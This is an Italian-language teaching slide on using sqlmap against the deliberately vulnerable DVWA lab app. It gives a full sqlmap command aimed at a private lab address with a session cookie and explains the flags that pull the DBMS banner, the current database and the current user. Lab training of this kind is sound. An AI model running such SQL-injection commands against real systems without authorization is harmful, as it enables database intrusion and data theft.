

# Sqlmap test verso DVWA
Ottieni utente database per DVWA
Installare Tamperdata addons per firefox
sqlmap -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<your>; security=low" -b --current-db --current-user
-u, Target URL
--cookie, HTTP Cookie header
-b, recupera banner DBMS
--current-db, recupera il database corrente DBMS
--current-user, recupera l'utente corrente DBMS